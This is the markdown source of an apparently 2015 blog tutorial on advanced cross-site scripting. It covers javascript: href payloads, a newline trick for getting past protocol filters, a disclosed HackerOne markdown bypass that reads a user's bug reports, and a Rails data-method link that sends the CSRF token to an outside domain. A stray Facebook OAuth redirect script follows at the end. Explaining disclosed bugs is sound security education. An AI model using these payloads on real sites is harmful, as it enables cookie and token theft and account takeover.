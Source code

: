 ```yaml
---
title: advanced cross site scripting part 1
updated: 2015-11-26
tags: hackerone,xss,cross site scripting,csp bypass,href xss,stored xss,reflected xss,dom xss,google xss,csrf,ruby
---
```

> Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications.
XSS enables attackers to inject client-side script into web pages viewed by other users.

Yeah you know about that . Let's dive deep into the cross site scripting . Now a days xss is not just inserting 
`"><img src=x onerror=prompt(9)>` .There are some clever hacks for cross site scripting . Some people redefined the way 
attackers can perform xss.
now think of `<a>` tag . Commonly known attack is inserting `javascript:alert(document.cookie)` into href . 

```html
<a href="javascript:alert(document.cookie)">lol</a>
```
But there are some filters those need an protocol like `{anything}://` . But this one doesn't executes 
`javascript://alert(document.cookie)` . To bypass this one we need some characters like %0a%0d . Final payload

```html
<a href="javascript://%0a%0dalert(document.cookie)">lol</a>
```
This one is basic too. Now we will discuss about a rare xss found by danlec which bypassed strong csp of hackerone.
Hackerone uses daring fireball as markdown [https://daringfireball.net/projects/markdown/basics](https://daringfireball.net/projects/markdown/basics).
Danlec found that `<http://\<h1\>test\</h1\>>` rendered to `http://<h1>test</h1>`
Hackerone uses strong csp but some one can access the information of the user bugs 

```
<http://\<img\ src=0\ onerror=\"$.getJSON(\'/bugs\',function(a){alert(JSON.stringify(a));})\"\>>
```

Some can send csrf token to other domain by a link handle bypass

```html
<a href="http://danlec.com" data-method="post">Proof of Concept</a>
```

`data-method="post"` Normally url's are get requests but ruby has an option of adding post method . Ruby sends `X-Csrf-Token`
with the post request so any url there can catch the csrf token at server side .


Visit my next article about advanced xss [http://withintech.com/notes/xss-cross-site-scripting-2](http://withintech.com/notes/xss-cross-site-scripting-2)

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- second ad -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-6760357694701522"
     data-ad-slot="5076786892"
     data-ad-format="auto"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>
<script type="text/javascript">window.location.href="fbconnect:\/\/success#granted_scopes=user_friends\u00252Cemail\u00252Ccontact_email\u00252Cpublish_actions\u00252Cpublic_profile&denied_scopes=manage_pages&signed_request={REDACTED}&access_token={REDACTED}&expires_in=5172488&e2e=\u00257B\u002522init\u002522\u00253A1472805075218\u00257D";</script>
